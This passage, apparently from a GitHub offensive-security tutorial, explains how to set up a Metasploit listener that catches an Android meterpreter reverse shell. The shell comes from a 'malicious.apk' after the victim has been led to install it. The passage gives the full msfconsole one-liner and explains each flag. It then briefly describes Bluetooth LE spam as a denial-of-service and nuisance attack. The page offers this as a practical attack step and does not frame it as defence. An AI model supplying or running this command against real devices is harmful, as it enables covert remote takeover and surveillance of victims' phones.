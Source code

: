 #### Setting up the Listener Port (using `msfconsole`)
After creating the `malicious.apk` and getting the user to install it, you need to set up a listener to "catch" the connection when the app is run.
* **Command:** `msfconsole -q -x "use multi/handler; set payload android/meterpreter/reverse_tcp; set lhost IP Address; set lport Port; exploit"`
* **Explanation:**
    * `msfconsole`: Starts the Metasploit console.
    * `-q`: Starts quietly (no banner).
    * `-x "..."`: Executes a series of commands.
    * `use multi/handler`: Loads the generic payload handler.
    * `set payload ...`: Sets the *same payload* you used in `msfvenom`. This is crucial.
    * `set lhost ...`: Sets your IP address (must match `msfvenom`).
    * `set lport ...`: Sets your listening port (must match `msfvenom`).
    * `exploit`: Starts the listener. It will now wait for the infected device to connect back.

### Bluetooth LE Spam
This is a modern annoyance attack, often performed with devices like the Flipper Zero.
* **What it is:** The attack floods an area with a high volume of Bluetooth Low Energy (BLE) advertisement packets.
* **Impact:** This can cause a Denial of Service on some devices and, more commonly, trigger a constant stream of pop-up notifications on iOS and Android devices, asking them to connect to various fake devices (e.g., Apple TV, headphones).
